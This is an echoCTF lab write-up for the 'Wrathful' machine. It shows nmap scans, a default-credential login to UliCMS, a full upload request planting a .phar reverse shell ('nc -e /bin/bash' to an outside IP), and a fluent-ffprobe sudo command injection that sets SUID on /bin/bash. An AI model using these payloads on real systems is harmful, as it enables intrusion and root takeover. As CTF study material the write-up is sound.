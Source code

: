 ```yaml
---
description: >-
  Wrathful echoCTF Machine
title: Wrathful (Intermediate)                # Add title here
date: 2025-02-25 08:00:00 -0600                           # Change the date to match completion date
categories: [echoCTF, Intermediate]                     # Change Templates to Writeup
tags: [Default Credentials, RCE, Arbitrary Command Injection, UliCMS]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: true                                    # Change this to true
image: /assets/img/icons/Wrathful.png                # Add infocard image here for post preview image
---
```

##### Host entries
```bash
10.0.160.232
```

### Content

- Default Credentials
- Ulicms - Remote Code Execution (RCE)
- Arbitrary Command Injection in fluent-ffprobe

### Reconnaissance

Initial reconnaissance for TCP ports
```bash
nmap -p- -sS --open --min-rate 500 -Pn -n -vvvv -oG allPorts 10.0.160.237
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.0.160.237 ()   Status: Up
Host: 10.0.160.237 ()   Ports: 22/open/tcp//ssh///, 80/open/tcp//http///
```
Services and Versions running:
```bash
nmap -p22,80 -sCV -n -Pn -vvvv -oN targeted 10.0.160.237
Nmap scan report for 10.0.160.237
Host is up, received user-set (0.18s latency).
Scanned at 2025-02-25 12:27:53 EST for 41s

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 3a:29:65:08:4d:a0:e7:f1:11:ba:00:4a:13:e6:7c:46 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOYx6YnF9iFKePvj48+MTqOwkSZzjqnmtKIKUVWVEzMp
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.61 ((Debian))
| http-methods: 
|_  Supported Methods: GET
|_http-title: Sample Page > Welcome
|_http-server-header: Apache/2.4.61 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Exploitation

There is a Web Service running on port 80 called `UliCMS` looking for exploits on it, we identified the following [Ulicms - Remote Code Execution (RCE)](https://www.exploit-db.com/exploits/51434), but the exploit requires authentication, I then tried to login using Default Credentials, and I got the pair `admin:admin1234`, with this, we can execute the script which is an OS Command Injection vulnerability, using the following POST request, which uploads a .phar malicious file to our profile image:
```bash
POST /admin/index.php HTTP/1.1
Host: 10.0.160.237
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://10.0.160.237/admin/index.php?action=admin_edit&id=1&ref=home
Content-Type: multipart/form-data; boundary=---------------------------343146591322721372102377782251
Content-Length: 2239
Origin: http://10.0.160.237
Connection: keep-alive
Cookie: 668c349d57509_SESSION=6pd2gi1hq4amrdg96k71hn0qi4
Upgrade-Insecure-Requests: 1

-----------------------------343146591322721372102377782251
Content-Disposition: form-data; name="csrf_token"

62140af85d6eb36eac83a3996ab25cfd
-----------------------------343146591322721372102377782251
Content-Disposition: form-data; name="sClass"

UserController
-----------------------------343146591322721372102377782251
Content-Disposition: form-data; name="sMethod"

update
-----------------------------343146591322721372102377782251
Content-Disposition: form-data; name="avatar"; filename="exploit.phar"
Content-Type: application/octet-stream

<?php echo system("nc -e /bin/bash 10.10.5.122 1234"); ?>

-----------------------------343146591322721372102377782251
Content-Disposition: form-data; name="edit_admin"

edit_admin
-----------------------------343146591322721372102377782251
Content-Disposition: form-data; name="id"

1
-----------------------------343146591322721372102377782251
Content-Disposition: form-data; name="firstname"

adm
-----------------------------343146591322721372102377782251
Content-Disposition: form-data; name="lastname"

in
-----------------------------343146591322721372102377782251
Content-Disposition: form-data; name="email"

admin@wrathful.echocity-f.com
-----------------------------343146591322721372102377782251
Content-Disposition: form-data; name="password"


-----------------------------343146591322721372102377782251
Content-Disposition: form-data; name="password_repeat"


-----------------------------343146591322721372102377782251
Content-Disposition: form-data; name="group_id"

1
-----------------------------343146591322721372102377782251
Content-Disposition: form-data; name="homepage"


-----------------------------343146591322721372102377782251
Content-Disposition: form-data; name="html_editor"

ckeditor
-----------------------------343146591322721372102377782251
Content-Disposition: form-data; name="admin"

1
-----------------------------343146591322721372102377782251
Content-Disposition: form-data; name="default_language"

en
-----------------------------343146591322721372102377782251
Content-Disposition: form-data; name="about_me"


-----------------------------343146591322721372102377782251--

```
File upload error may occur, but this does not mean that the file is not uploaded and the file location is shown in the error
```bash
Imagine\Exception\RuntimeException: Unable to open image /var/www/html/content/tmp/67bdfbd4298b8.phar
```
Then all we need to do is visit the web page:
```bash
http://10.0.160.237/content/tmp/67bdfbd4298b8.phar
```

### Privilege Escalation
For the Privilege Escalation I then proceed to execute the command `sudo -l` and I can execute a script as user root without password:
```bash
www-data@wrathful:/var/www/html/content/tmp$ sudo -l
Matching Defaults entries for www-data on wrathful:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User www-data may run the following commands on wrathful:
    (ALL : ALL) NOPASSWD: /usr/local/bin/ffprobe
```
Its content is like this:
```bash
#! /usr/bin/env node
const fluent_ffprobe = require("fluent-ffprobe")
var args = process.argv.slice(2);
var backParams=args[0]
var file=args[1];
var frontParams=args[2]
console.log(fluent_ffprobe.get_raw(backParams, file, frontParams));
```

As usual, the vulnerability relays on the imported library, in this case `fluent-ffprobe`, there is a vulnerability reported as [Arbitrary Command Injection](https://gist.github.com/icemonster/1b7627d06cd67717fead1dad0d0f9c72), after reading the article I came with the following payload:
```bash
www-data@wrathful:/tmp$ PAYLOAD='$(/bin/bash -c "chmod +s /bin/bash")'
www-data@wrathful:/tmp$ sudo /usr/local/bin/ffprobe "$PAYLOAD" dummy
www-data@wrathful:/tmp$ ls -al /bin/bash
-rwsr-sr-x 1 root root 1265648 Apr 23  2023 /bin/bash
```
And we ARE INSIDEEEE!!!

### Post Exploitation

Flags are stored at:

`/etc/passwd`
`/etc/shadow`
`environment variables (env command)`
`/root`

### Credentials

- Credentials identified for UliCMS are `admin:admin1234`

### Notes

- No fancy tricks here, all you need to search for is a good exploitation and default credentials.

### References

- [Ulicms - Remote Code Execution (RCE)](https://www.exploit-db.com/exploits/51434)
- [Arbitrary Command Injection](https://gist.github.com/icemonster/1b7627d06cd67717fead1dad0d0f9c72)
